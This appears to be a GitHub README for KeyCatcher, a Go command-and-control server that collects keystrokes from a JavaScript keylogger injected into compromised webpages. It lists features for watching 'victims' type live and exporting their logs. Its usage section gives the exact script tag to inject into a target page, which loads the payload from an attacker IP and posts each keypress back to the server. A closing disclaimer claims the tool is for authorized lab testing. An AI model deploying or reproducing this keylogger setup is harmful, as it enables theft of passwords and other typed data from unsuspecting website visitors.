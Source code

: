 # 🎯 KeyCatcher – Terminal-Based Keystroke Exfiltration C2

![Language: Go](https://img.shields.io/badge/language-Go-blue.svg)
![License: MIT](https://img.shields.io/badge/license-MIT-green.svg)
![Platform](https://img.shields.io/badge/platform-Linux%20%7C%20macOS%20%7C%20Windows-lightgrey)

**KeyCatcher** is a powerful terminal-based C2 server. It captures keystrokes from compromised webpages and visualizes them in a clean, real-time Terminal UI.
![Demo](keycatcher.gif)

## ✨ Features

- 🚀 **Real-Time Keystroke Capture** : Watch victims type live with zero delay.

- 📊 **Beautiful Terminal UI**  : Built with `tview`, logs are neatly organized by victim IP.

- 💾 **Persistent Storage**  : All keystrokes are stored in `keystrokes.db` (SQLite).

- 📦 **Self-Hosted Payload** : Automatically serves `keylogger.js` for easy deployment.

- 🧠 **Smart Log Parsing**  :  Recognizes and labels special keys like `[BACKSPACE]`, `[ENTER]`, etc.

- ⬇️ **One-Click Data Export**  : Export logs per victim using a single hotkey.

- 💻 **Cross-Platform Support**  : Works on **Linux**, **macOS**, and **Windows**.


## 🛠 How It Works

### 🧩 1. JavaScript Payload (`keylogger.js`)
- Injected into the target page.
- Captures keystrokes using `keydown` events.
- Sends each keypress to the C2 server via `POST /log`.

### 🧠 2. Go C2 Server (`main.go`)
- **HTTP Listener** – Serves the payload and receives data.
- **SQLite Logger** – Stores each keystroke with IP data.
- **TUI Renderer** – Uses `tview` to display victim data and keystrokes in real-time.


## 📋 Requirements

- **Go** version `1.18+` installed.


## 🚀 Installation & Setup

```bash
# 1. Clone the repository

# 2. Change directory
cd keycatcher

# 3. Install dependencies
go mod tidy

# 4. Configure the payload:
Open the keylogger.js file and modify the attackerServer variable to point to the IP address and port of the machine where you will run the KeyCatcher server.
```

# ▶️ Usage

```bash
# 1. Start the KeyCatcher C2 Server
  go run main.go
# 2. Deploy the Payload:Inject the following script tag into the target webpage. The victim's browser will fetch and execute the payload from your C2 server.
  <script src="http://192.168.1.110:80/keylogger.js"></script>
# 3. Monitor the TUI:
    a. As victims visit the infected page and start typing, their IP addresses will appear in the "Victims" list on the left.
    b. Use the Up/Down arrow keys to select a victim.
    c. The "Keystrokes" pane on the right will display their reconstructed typing in real-time.
    d. Press Ctrl+E to export all captured logs to exfiltrated_data.log.
    e. Press Ctrl+C to quit the application.
```


⚠️ Disclaimer

This tool is intended for educational purposes and for use in authorized security testing scenarios only, such as the OffSec labs. Unauthorized use of this tool to capture keystrokes from individuals without their explicit consent is illegal and unethical. The author is not responsible for any misuse or damage caused by this program.

    

    
